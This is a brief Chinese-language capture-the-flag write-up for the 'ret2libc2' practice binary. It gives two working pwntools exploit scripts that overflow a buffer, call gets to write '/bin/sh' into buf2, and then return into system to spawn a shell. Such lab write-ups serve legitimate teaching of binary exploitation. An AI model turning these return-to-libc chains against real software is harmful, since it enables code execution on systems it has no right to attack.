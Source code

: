# ret2libc2

这题与ret2libc1差不多，只是没有/bin/sh 字符串，所以需要我们自己写入

Exp：

```python
from pwn import *
io = process("./ret2libc2")
elf = ELF("./ret2libc2")
buf2 = elf.symbols["buf2"]
gets_plt = elf.plt["gets"]
system_plt = elf.plt["system"]

payload = b'a'*112 + p32(gets_plt) + p32(system_plt) +p32(buf2) +p32(buf2)
io.sendline(payload)
io.sendline("/bin/sh")
io.interactive()
```

![1](1.png)

当然，exp也可以这样写：

```python
from pwn import *
io = process("./ret2libc2")
elf = ELF("./ret2libc2")
buf2 = elf.symbols["buf2"]
gets_plt = elf.plt["gets"]
system_plt = elf.plt["system"]
pop_ret = 0x0804843d
payload = b'a'*112 + p32(gets_plt) + p32(pop_ret) +p32(buf2)+ p32(system_plt)+  p32(0xdeadbeef)+p32(buf2) 
io.sendline(payload)
io.sendline("/bin/sh")
io.interactive()
```

